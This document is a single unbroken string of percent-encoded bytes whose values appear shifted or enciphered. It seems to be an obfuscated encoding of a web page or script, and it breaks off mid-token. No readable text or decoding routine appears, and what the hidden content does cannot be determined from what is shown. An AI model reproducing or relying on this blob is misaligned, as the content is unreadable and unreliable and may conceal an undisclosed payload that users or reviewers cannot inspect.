0f%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%3c%58%1b%64%62%56%72%79%3e%27%69%58%72%2d%6d%62%69%61%29%1d%6e%75%64%61%3c%26%27%27%1b%67%57%7b%5c%23%77%6a%60%62%6c%65%3c%25%6e%65%6b%5c%62%25%19%67%58%74%59%2c%77%5a%78%6c%60%7a%3e%27%24%76%65%74%75%62%69%6d%78%23%16%77%60%77%6d%65%3d%27%54%66%7a%7b%64%64%60%76%25%3b%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%3f%6f%17%62%62%5a%76%74%3c%26%62%58%74%1b%6c%56%28%69%6f%6a%76%65%2d%6d%6a%68%69%16%6d%5c%23%61%72%25%3b%3c%2b%60%39%1b%32%78%6d%57%69%19%64%6d%59%77%76%3e%25%6a%22%69%6d%2e%6b%68%6b%65%26%3b%44%63%65%64%72%6b%1b%55%63%64%6d%65%3d%28%74%66%56%6f%34%0e%0f%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%3f%2a%5a%3b%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%3f%2a%6f%60%3a%0d%0f%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%33%2e%7b%6f%3b%0e%0f%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%3c%2a%67%62%7c%35%08%00%1b%19%1b%19%18%18%19%1b%3f%25%6b%64%7c%39%0c%0d%19%18%18%19%3f%28%64%56%77%34%0e%0f%1b%19%18%18%3d%74%64%78%6e%6d%7a%39%0c%0d%19%18%18%19%1b%1b%16%17%21%2e%67%6a%64%74%6d%65%6b%77%22%24%79%60%57%67%70%23%63%75%6a%66%77%62%65%65%1d%2e%22%19%7c%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%24%20%27%24%69%65%7b%64%6c%62%66%5a%75%61%6b%6b%74%25%2f%25%68%65%67%58%6f%21%23%77%61%68%70%2d%2e%3a%03%0d%19%1b%19%18%18%19%1b%1b%73%2e%3a%03%0d%19%1b%19%18%3c%2a%74%64%78%6e%6d%7a%39%0c%0d%0c%0e%18%19%1b%1b%32%78%71%7f%6f%64%39%0c%0e%18%19%1b%1b%16%17%1d%16%29%73%62%65%65%6b%2c%75%66%79%67%6e%64%74%60%71%64%18%7f%0c%0d%1b%16%17%1d%16%1b%19%1b%19%18%18%19%68%71%6b%79%67%62%68%72%3d%19%60%61%65%67%66%64%30%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%66%5a%65%67%60%6a%63%2c%65%68%7a%7b%6e%63%3d%19%36%33%2a%36%34%26%3c%03%01%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%67%6e%79%62%75%62%6a%6a%3e%19%75%66%62%56%71%6f%71%64%3c%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%60%65%60%60%63%7a%31%1d%26%3c%0c%0d%19%18%18%19%1b%1b%16%17%78%03%0d%0c%0d%19%18%18%19%1b%1b%16%17%2f%7c%62%65%66%6a%2d%76%64%74%6b%65%65%72%6f%71%64%1b%60%62%76%58%6e%66%16%70%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%62%66%63%77%3f%18%28%3e%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%77%65%67%3b%16%2b%3e%0e%0f%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%61%65%61%62%63%77%30%17%2c%26%2b%24%3c%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%73%61%65%77%63%30%17%2c%26%2b%24%3c%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%68%6b%76%62%77%6f%64%6f%30%1b%58%65%76%6b%6c%74%77%66%31%02%0b%16%1b%19%1b%19%18%18%19%7e%0e%00%02%0b%16%1b%19%1b%19%18%18%19%29%67%7f%65%5c%63%62%66%2e%66%6b%6a%75%66%69%7a%17%7a%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%67%60%74%69%6c%59%70%3d%1b%64%64%6f%6b%3c%0c%0d%19%18%18%19%1b%1b%16%17%78%03%0d%19%1b%19%18%3c%2a%74%77%7f%63%60%34%0e%0f%1b%19%18%18%3d%74%64%78%6e%6d%7a%1b%76%75%66%3d%26%61%77%77%66%78%3b%25%28%58%6d%58%70%2a%62%68%68%6d%63%60%57%6b%60%74%2b%67%6b%6c%28%5a%60%56%75%25%6f%60%65%76%2b%6e%68%76%66%78%7e%2e%27%29%28%35%2b%34%2b%6f%6a%76%6b%79%74%24%6e%60%69%2b%6e%77%27%39%3f%25%78%62%78%62%69%77%3b%0d%0e%19%1b%1b%16%33%72%69%75%60%6b%75%18%77%77%64%3e%28%24%2e%69%68%65%66%2b%6e%69%74%66%75%7f%25%62%65%6e%2a%6d%68%75%65%77%72%2e%27%25%2c%38%29%29%29%6c%61%6a%2b%6d%74%28%35%39%25%74%66%75%60%68%74%3b%0e%0d%16%17%1d%16%3f%76%64%77%61%68%75%1b%77%7f%67%60%33%25%75%66%71%74%2b%6f%5a%71%57%78%62%78%62%69%77%27%3a%0d%0f%1b%1b%16%17%1d%16%1b%19%28%2a%18%48%58%75%74%6b%17%71%6e%66%19%56%57%4c%18%69%5a%75%57%62%60%7a%66%77%0e%0f%18%18%19%1b%1b%16%17%1d%6c%76%6b%64%75%61%6b%6b%1b%60%6b%7b%4d%57%75%58%6e%64%74%65%77%45%72%44%56%68%6b%23%6b%5a%6c%65%2c%19%76%75%62%2e%1d%71%0e%0f%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%60%61%19%20%19%74%75%6f%2f%17%70%78%6f%19%3e%19%73%61%6b%67%68%7d%25%69%65%64%58%77%60%6b%6a%2b%63%75%6b%6d%3a%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%69%58%6e%64%18%3d%19%69%5a%63%6a%2f%78%66%69%6f%58%67%65%21%28%5c%52%50%59%53%5e%2a%60%2d%18%26%5d%5f%27%2c%29%24%31%0e%0f%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%73%5a%77%18%76%64%60%66%7e%17%38%16%69%64%70%19%56%65%62%46%73%66%2f%23%51%38%23%5e%27%18%2f%19%69%5a%63%6a%1d%21%1b%27%23%3c%20%5f%5b%21%24%53%21%24%72%21%7d%24%7d%24%21%27%22%2f%03%01%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%77%66%76%75%6c%75%74%1b%33%17%73%6b%60%64%73%2b%65%70%64%64%23%7b%79%69%2f%3c%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%62%63%18%20%18%75%66%79%7a%69%7a%74%20%1b%77%65%74%74%75%69%16%65%70%62%6f%3e%0e%0f%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%60%62%18%21%1a%75%6b%78%70%62%77%76%5c%37%5d%21%19%75%66%7a%7a%73%64%1b%22%20%3e%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%76%64%77%76%78%65%1d%6a%66%66%68%65%65%55%57%42%44%65%62%6d%65%69%64%69%75%20%76%64%74%76%62%7b%72%51%35%5c%29%77%65%68%6d%5a%64%6b%2f%2e%52%2c%2a%60%2d%18%26%19%25%22%2f%30%08%00%1b%19%1b%19%18%18%19%1b%7e%03%01%1d%16%1b%19%1b%19%18%18%2a%28%1b%4d%6e%77%6b%1b%75%63%64%18%68%58%75%5a%63%6a%71%6b%75%19%5a%19%72%59%77%62%5a%68%63%60%16%69%58%6e%64%0d%0e%19%1b%1b%16%17%1d%16%1b%73%5a%77%18%64%70%69%5a%63%6e%62%49%68%6b%77%64%6a%74%19%3e%1b%6d%6a%71%46%5a%77%5a%6c%65%74%64%75%45%7f%45%5c%63%66%21%20%60%64%23%20%3c%0e%00%02%0b%16%1b%19%1b%19%18%18%19%27%23%6a%64%62%7b%6e%64%69%75%21%2a%77%66%5a%6a%7e%25%6c%76%6b%64%75%61%6b%6b%1b%23%2f%17%7a%03%0d%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%28%2a%18%47%61%66%64%61%17%64%6c%1b%75%63%64%18%55%57%4f%1b%66%56%73%63%66%75%66%77%18%61%76%1b%66%63%67%71%7f%1b%6a%75%19%6a%6b%75%1b%67%6b%6d%64%64%66%65%2f%19%64%61%76%6b%6f%57%7e%1d%6a%66%63%5a%74%6c%74%19%64%68%64%7b%60%64%77%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%62%63%18%20%65%72%69%57%62%64%69%44%6a%69%75%65%6a%75%1b%3e%33%17%70%64%67%64%61%60%6a%65%65%1b%7f%72%17%61%7f%69%58%6e%60%67%47%6a%69%77%6b%65%71%16%3e%3c%1b%22%23%21%19%7c%0e%00%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%27%21%20%26%6a%6b%2c%61%62%62%6a%26%2f%29%76%63%6a%73%20%20%3c%0e%00%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%73%02%0b%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%28%2a%1b%46%60%65%66%6c%1b%6f%6d%1d%7a%63%64%1b%54%56%4c%19%6b%5a%78%56%68%6b%77%64%75%19%61%77%19%5a%71%57%6e%69%57%65%6d%66%19%6b%76%19%69%68%7a%25%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%6b%6f%76%66%19%7f%0d%0f%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%2b%25%2d%24%69%6f%58%71%2d%65%68%70%64%63%6e%57%67%22%22%2b%77%60%6a%70%23%2f%30%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%73%0e%0f%1b%19%18%18%19%1b%1b%16%72%24%31%0e%0f%1b%19%18%18%3d%28%74%69%79%64%66%77%3b%0e%0f%0d%0e%19%1b%1b%16%33%61%6f%71%19%64%6d%59%77%76%3e%25%69%64%6f%7a%5a%60%69%64%76%26%3b%0e%0d%03%01%08%00%1b%19%1b%19%18%18%19%1b%3f%79%68%73%6f%6b%75%1b%6d%59%6a%62%76%5a%6d%6a%38%60%5a%73%5a%76%67%76%60%6b%77%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%77%57%75%19%77%61%65%57%64%6f%66%69%7b%29%16%77%61%66%40%62%76%58%6e%66%31%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%77%57%75%19%77%6a%64%59%70%1b%3e%16%65%60%7d%1b%45%5a%75%65%20%20%2f%0e%00%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%69%74%6d%66%64%75%58%65%6d%5e%6a%5a%70%1b%3c%18%74%6a%67%5a%7f%25%66%6b%77%45%5a%70%20%21%3e%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%27%2e%6b%6e%69%76%6c%66%6b%74%21%2b%75%66%57%6b%74%2e%61%74%69%66%74%61%6a%69%1b%2e%2e%1d%71%0e%0f%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%2b%2a%71%5a%78%17%71%65%67%58%72%19%3d%18%6b%66%70%16%4b%5c%7a%66%21%22%3e%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%25%24%77%57%75%19%69%19%3d%18%75%68%67%57%7e%2f%6d%66%75%47%58%71%20%20%3c%0e%00%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%77%61%66%56%65%6c%64%64%77%16%32%1d%6a%68%66%76%6c%65%6a%75%29%60%6b%7b%40%62%66%6c%66%6b%74%46%70%42%67%2e%2c%69%65%64%58%77%60%6b%6a%22%22%3c%03%01%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%75%63%64%41%62%77%5a%6e%6b%17%38%16%67%6a%64%74%6d%65%6b%77%29%6d%6a%71%4b%6f%64%6e%64%6a%74%47%72%42%6a%2f%26%63%72%40%61%77%59%6d%64%20%22%31%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%77%61%65%55%77%6f%1b%33%17%71%6e%66%56%66%6d%65%67%75%29%68%66%7b%64%65%69%76%5c%6b%75%6d%67%66%75%55%64%67%55%67%58%72%5c%2a%72%58%6f%76%6b%30%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%75%60%65%40%61%75%57%62%60%24%74%77%64%19%3d%18%75%63%66%5b%79%69%31%0e%0f%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%7c%22%3e%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%62%74%69%64%7a%6e%6e%64%1b%76%66%75%41%62%77%5a%6e%6b%58%6e%7b%75%66%66%21%21%18%7e%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%7c%5a%77%1b%75%60%65%54%75%6f%31%02%0b%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%61%62%19%23%77%6e%6a%52%6b%6f%64%64%75%2a%77%64%6f%66%69%7b%60%6a%42%6b%67%64%70%18%3b%1b%2b%2f%17%7a%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%77%6e%6a%50%78%6f%19%3e%19%74%60%64%54%66%62%6a%62%7a%29%6a%6b%75%61%6b%6b%74%5c%7a%6f%60%59%66%6d%66%66%74%2a%76%66%6f%6b%68%71%6b%67%40%69%65%65%70%5c%29%71%57%63%70%6b%3c%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%7c%1b%66%62%78%60%16%7c%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%7b%65%6b%56%77%6f%19%3d%18%75%63%66%59%6a%69%6b%64%75%29%6a%68%74%60%68%69%79%50%6f%7b%6e%67%66%77%5b%6b%63%58%67%57%7e%58%24%71%58%6f%74%65%3f%0c%0d%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%78%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%74%60%64%42%61%78%56%68%6b%29%76%75%66%18%3d%19%77%63%6b%5a%73%62%3c%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%7e%0c%0e%18%19%1b%1b%16%17%1d%16%3f%2a%74%66%76%61%69%77%39%03%01%08%00%1b%19%1b%19%18%18%19%1b%3f%17%22%28%16%47%64%61%58%75%6c%75%1b%47%7f%65%5c%63%62%66%1b%56%65%67%75%62%68%64%17%28%23%39%0c%0d%19%18%18%19%1b%1b%16%17%39%6a%62%73%1b%60%64%3d%27%6b%6f%57%7e%28%6a%68%72%69%6d%6b%59%65%25%1b%69%63%5c%79%74%3c%25%65%71%6a%58%6e%62%69%22%62%65%69%75%66%6b%74%26%3b%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%3f%59%4a%49%4b%44%55%1b%66%6c%59%76%74%3e%28%68%70%79%77%6a%6e%2c%77%65%6d%66%64%7a%29%1d%44%3a%4c%46%3c%26%6b%69%77%62%65%65%72%28%1b%4a%49%46%40%39%4b%40%46%33%29%61%65%64%74%6e%64%6a%74%2b%60%66%7a%4a%69%6b%6e%64%69%75%46%71%40%67%23%2d%7e%6e%7b%75%60%61%77%59%6d%64%20%22%24%78%73%69%1b%3c%1b%75%60%61%76%29%68%66%7b%64%65%69%76%5c%75%60%61%76%29%74%6b%63%60%69%77%64%67%40%6a%64%64%73%5e%24%7d%5c%62%76%64%25%3b%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%3c%76%64%75%6f%67%71%16%77%70%6b%64%3d%26%75%66%73%7a%24%6b%57%71%58%74%66%76%61%69%77%25%34%02%0b%6a%29%72%75%60%74%65%21%20%3f%65%67%71%6f%68%6b%39%46%60%6b%6a%74%66%16%47%69%57%72%64%75%3d%2b%6b%69%77%62%65%65%3f%32%68%69%77%60%6b%6a%19%71%5a%62%7a%60%33%25%61%77%75%68%77%3f%28%28%6a%79%64%7c%66%2b%60%6a%6b%63%6d%66%29%69%64%68%25%61%60%6f%64%2b%64%2a%20%2c%6f%6d%73%57%6e%64%2c%22%2b%68%77%66%71%6f%6a%76%28%39%4c%76%6d%74%61%48%76%5a%62%6e%71%7f%3f%2a%68%69%74%61%6a%69%39%32%64%6d%7a%62%6a%69%19%72%59%6d%76%66%33%29%65%7a%77%69%74%3f%2b%2b%75%68%68%64%78%71%78%66%58%6e%2b%60%65%77%68%6c%7b%56%6d%66%29%66%68%6c%2b%43%45%4b%28%35%3f%68%43%36%50%76%72%47%71%62%42%37%65%49%42%3f%77%46%64%41%3d%23%2e%62%61%78%56%68%6b%2c%22%25%3b%4e%53%19%4b%6f%57%7e%60%78%3f%2a%68%69%74%61%6a%69%39%32%24%52%4b%4f%44%44%55%3a%3c%67%75%28%34%33%63%78%28%3b%3f%65%61%72%19%64%6f%57%78%72%33%25%77%66%76%68%2d%66%68%69%7a%56%64%64%66%77%25%3b%18%3c%60%61%75%57%62%60%16%64%6d%5a%76%77%3d%27%75%66%79%67%28%6f%61%77%5a%6c%65%26%19%62%67%33%29%74%65%76%77%62%63%76%59%6c%66%25%16%78%73%69%3e%27%63%75%74%68%76%3d%28%25%6b%73%6f%71%64%29%62%6b%6b%62%6f%66%24%68%6e%63%28%63%62%6d%65%2b%65%28%20%21%6e%67%78%5a%6c%66%2e%23%2b%69%75%66%7c%6e%60%7d%25%19%60%64%77%74%74%75%66%33%29%68%6b%67%60%5a%27%18%59%6d%6f%68%7d%32%23%6b%69%66%75%70%68%74%64%67%2e%63%6a%61%6f%5a%27%1b%58%6c%6c%6a%70%61%7b%63%69%79%64%77%66%64%6a%3d%27%25%1b%63%64%7b%57%6f%6d%68%72%62%75%6d%6f%74%69%79%60%6b%69%3c%25%75%76%75%64%25%1b%7d%6a%63%61%62%75%5a%6d%6c%6b%72%61%76%62%63%72%69%75%64%66%6b%3d%26%75%75%76%6b%29%1d%79%5a%6b%67%67%6b%70%76%64%75%65%63%69%6f%69%62%3e%27%6a%6b%27%1b%74%57%65%61%68%68%71%3e%27%59%6c%6d%68%70%23%78%62%78%62%69%77%76%18%59%6d%6f%68%7d%22%72%57%6e%64%2e%6a%76%61%62%62%69%28%35%39%25%62%63%75%58%6d%65%3b%3f%28%6a%6e%77%34%3f%61%75%2a%3a%3c%66%66%69%7a%6a%73%34%3f%58%1b%61%76%65%63%3e%25%6e%7b%71%66%74%3f%28%2a%74%6b%6a%69%74%7a%79%60%57%6e%2b%63%64%76%6b%6e%76%5a%66%67%2f%69%68%6c%28%42%44%76%60%71%66%25%6c%61%6f%75%64%64%75%36%2a%69%63%6b%35%6e%61%33%20%2e%62%63%76%59%6c%66%2c%2d%29%1d%78%66%6d%3e%27%6a%6b%6a%6b%66%64%6a%73%16%69%6a%75%64%62%65%77%75%66%78%29%3f%32%65%74%77%75%6b%6a%19%64%6f%57%78%72%33%25%67%77%6b%2d%60%6a%71%66%78%17%62%65%6f%6a%75%2c%29%29%27%39%3f%6f%17%62%62%5a%76%74%3c%26%62%58%1b%61%57%22%61%65%70%6b%6f%6a%59%64%27%39%3f%25%6e%3f%16%47%6a%70%6b%6c%6b%58%67%1b%4c%6e%69%6b%3f%2a%65%74%74%74%6a%69%39%32%24%5c%34%3f%58%1b%61%76%65%63%3e%25%6e%7b%71%66%74%3f%28%2a%73%73%72%29%77%65%64%6f%79%63%74%65%2b%6d%6c%2a%25%1b%78%6a%69%33%25%6b%68%6a%68%65%6b%66%75%16%65%6e%78%66%63%66%77%76%65%77%25%1b%7a%56%73%6d%66%75%3e%27%5b%66%6d%5a%69%61%29%3f%32%65%74%77%75%6b%6a%19%64%6f%57%78%72%33%25%67%77%6b%2d%60%6a%71%66%78%17%62%65%6f%6a%75%2c%29%26%3b%3f%62%16%68%69%57%74%76%3e%27%62%59%19%61%5a%23%65%60%7d%74%69%5a%69%65%76%27%39%3f%25%6e%3f%16%21%6b%65%76%68%3f%53%62%74%6f%7b%1d%5a%68%6a%69%76%40%75%67%3f%28%68%7a%71%7a%68%6b%39%3d%2b%59%3b%3f%28%69%6a%6f%7a%66%77%39%3d%66%76%2a%39%20%2f%02%0b%32%28%76%64%77%61%68%75%39%0e%00%17%1d%16%1b%19%1b%19%18%3c%2a%67%62%7c%35%08%00%1b%19%1b%19%18%18%19%1b%3f%17%22%28%16%47%70%69%58%6d%61%66%1b%54%6b%68%71%6f%68%6b%1b%56%74%59%77%77%74%16%22%28%34%0e%0f%1b%19%18%18%19%1b%1b%16%33%61%6f%71%19%62%65%3d%26%6b%68%2e%6c%6e%69%6b%25%19%64%6d%59%77%76%3e%25%6a%7e%6f%57%6e%60%64%2c%67%6b%6b%77%66%64%7b%23%34%0e%0f%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%3d%64%64%6a%74%64%75%39%32%56%1d%6e%75%64%61%3c%26%2b%27%1b%64%62%56%72%79%3e%27%65%75%6a%18%67%77%69%23%67%73%6f%6e%58%75%70%18%6d%75%2e%2a%16%62%73%23%35%19%70%58%72%65%76%2e%66%6c%6d%60%69%77%19%70%58%72%65%76%2e%6f%6f%6c%65%7a%25%19%77%58%76%63%64%77%3e%28%54%63%62%5a%6b%6c%27%3a%52%60%74%62%7a%17%1d%5a%68%6a%69%76%40%75%67%3f%28%57%35%39%25%64%64%69%75%65%76%3b%0e%0d%16%17%1d%16%1b%19%1b%19%3c%2b%65%62%71%34%02%0b%03%0d%19%1b%19%18%18%19%1b%1b%32%16%28%23%1b%45%72%6b%59%6d%60%64%1b%59%6a%62%7a%62%6a%69%19%45%6a%65%74%1b%16%17%28%23%39%0c%0d%19%18%18%19%1b%1b%16%17%08%00%1b%19%1b%19%18%18%19%1b%0e%00%17%1d%16%1b%3d%28%65%61%72%3b%0e%0d%16%17%1d%16%3f%2a%6e%58%61%6a%3b%0e%0d%16%17%1d%16%3f%65%62%73%18%67%6d%5a%74%79%32%23%63%68%65%5a%6d%18%62%58%67%66%28%17%64%6a%3e%27%74%64%74%74%60%69%60%79%29%1d%7a%5a%67%62%6b%64%65%71%3e%25%23%26%23%16%75%6a%6f%64%3d%26%65%62%5a%62%64%66%28%1b%58%75%60%59%2d%6d%5a%65%6b%63%69%6b%67%67%72%3c%26%77%64%77%77%6f%65%66%79%4f%58%65%64%6c%26%0c%0d%1b%16%17%1d%16%1b%19%1b%58%76%61%58%2e%63%6f%6b%61%6b%69%3c%25%75%76%75%64%25%39%03%01%1d%16%1b%19%1b%19%18%18%3d%67%62%7c%17%62%62%5a%76%74%3c%26%6d%6a%67%5a%62%22%61%6f%5a%6d%68%62%26%18%77%68%6f%6b%32%23%6a%68%66%76%6c%65%6a%75%25%39%03%01%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%33%61%6f%71%19%64%6d%59%77%76%3e%25%63%64%61%57%6f%2c%64%6a%6a%74%64%69%77%28%35%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%3d%64%61%73%1b%64%62%56%72%79%3e%27%6e%6a%64%59%6d%2e%63%6b%56%61%6b%75%27%39%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%32%63%33%1b%66%6c%59%76%74%3e%28%62%6e%6a%5a%6d%2e%75%61%74%6d%66%25%34%58%60%7a%77%60%69%62%77%3c%2a%63%31%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%3f%2a%64%61%73%39%0e%00%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%3f%65%62%73%18%67%6d%5a%74%79%32%23%63%68%65%5a%6d%2d%66%6a%67%72%28%35%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%3f%67%6f%7d%1d%69%6f%58%74%76%3d%26%65%2e%61%62%6a%75%16%5a%6d%62%62%6a%2d%60%77%66%63%78%28%69%66%6b%77%64%76%18%6f%76%74%7a%6e%67%7f%2e%66%68%6b%74%65%6b%77%2e%68%6a%71%7d%66%64%69%27%3a%0d%0f%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%3c%65%62%71%16%68%69%57%74%76%3e%27%59%6c%60%60%69%23%78%60%62%61%2c%64%64%6a%74%64%75%1b%6c%64%6f%7a%2e%72%66%60%63%60%75%2e%65%65%63%61%28%39%45%5a%77%6f%18%55%63%66%63%6a%39%25%67%60%71%3b%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%3c%64%60%71%1b%69%63%5c%79%74%3c%25%58%6c%61%62%69%2e%79%6a%69%6c%2e%66%66%6b%74%65%77%25%39%03%01%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%3f%65%62%73%18%67%6d%5a%74%79%32%23%69%76%76%77%6a%6d%2d%66%68%69%7a%79%6e%62%1b%66%76%76%74%6b%6c%2e%74%7d%6e%71%69%63%27%39%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%39%6f%69%69%76%75%18%74%70%6b%66%33%29%62%6e%66%66%6c%67%6b%70%27%1b%64%62%56%72%79%3e%27%64%74%77%74%6a%6e%2e%69%64%6f%7a%75%6a%6f%2c%61%6a%69%76%77%28%17%64%6a%3e%27%67%58%76%6f%56%70%62%7a%68%65%28%1b%2a%39%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%39%62%5a%67%66%6d%18%67%6d%5a%74%79%32%23%69%76%76%77%6a%6d%2d%66%68%69%7a%79%6e%62%2e%6d%5a%67%65%6c%27%1b%61%65%79%38%28%67%58%75%6e%57%73%60%77%64%6e%29%1d%6f%67%3c%25%65%59%76%6e%54%70%6f%7b%62%6e%57%64%73%75%26%3a%6a%69%28%65%6d%67%32%28%6d%5a%67%65%6c%3b%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%39%25%67%60%71%3b%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%3c%2b%65%62%71%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%3d%28%67%6f%7d%3f%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%3f%79%62%5c%62%6f%3b%47%58%76%6f%19%77%63%6b%62%60%16%77%74%75%6b%77%18%75%63%66%16%63%64%6d%63%75%1b%76%75%76%63%5a%64%6b%78%1d%65%61%19%77%61%65%18%69%5a%60%6b%17%61%57%75%6e%2f%19%67%76%64%5a%77%6f%65%66%16%5a%6b%1b%64%70%68%64%75%62%6b%65%62%6b%1b%60%67%64%59%6c%19%61%68%78%17%6f%6f%60%61%77%2b%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%54%76%70%1b%62%7a%17%6e%7b%77%18%0e%0f%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%52%6a%75%76%19%47%5a%78%60%1d%7a%63%64%6e%64%18%77%64%77%77%6f%65%66%16%70%60%6f%6d%18%59%69%6b%6f%7f%17%71%65%1b%75%63%60%77%18%67%75%68%7d%78%60%78%1b%6a%69%6d%71%2a%3d%28%74%63%56%69%62%39%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%3d%28%67%6f%7d%3f%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%3f%2a%67%60%72%3a%0c%0d%1b%16%17%1d%16%1b%19%1b%3d%2b%64%60%71%39%03%01%1d%16%1b%19%3f%2a%64%61%73%39%0e%00%02%0b%03%0d%19%1b%19%18%3c%63%68%68%7a%6a%73%16%64%6d%5a%76%77%3d%27%6e%77%23%56%70%7a%68%19%65%62%2d%6c%60%60%63%7a%29%3f%03%0d%19%1b%19%18%18%19%1b%1b%32%6b%64%7c%1b%66%6f%58%77%77%3c%25%64%65%65%71%57%62%6b%66%77%18%68%70%2e%34%28%35%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%32%6b%19%64%6d%59%77%76%3e%25%7a%6a%75%7a%2e%66%66%6b%74%65%77%1b%77%6b%7f%71%23%6e%74%77%64%64%26%3b%57%68%65%65%52%6b%75%73%66%77%18%61%76%1b%5a%6c%6d%64%62%62%58%77%64%64%18%75%68%1b%32%56%1d%6e%75%64%61%3c%26%2b%27%39%57%65%64%6f%79%43%74%65%3d%2b%59%3b%29%1b%37%65%61%16%67%6a%66%76%18%6a%6a%77%1b%6e%64%72%7a%1b%58%69%70%18%62%60%6f%66%79%17%6e%64%1b%60%77%e7%78%91%76%1b%74%6b%79%77%6b%75%76%29%19%39%6c%6d%1b%61%6f%63%60%79%1b%6a%75%19%67%6b%6b%77%66%64%7b%72%16%63%6a%74%75%65%64%19%68%69%16%7b%65%6f%75%65%1b%69%59%76%75%72%0e%00%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%70%64%65%76%61%74%64%74%29%16%33%5c%16%63%7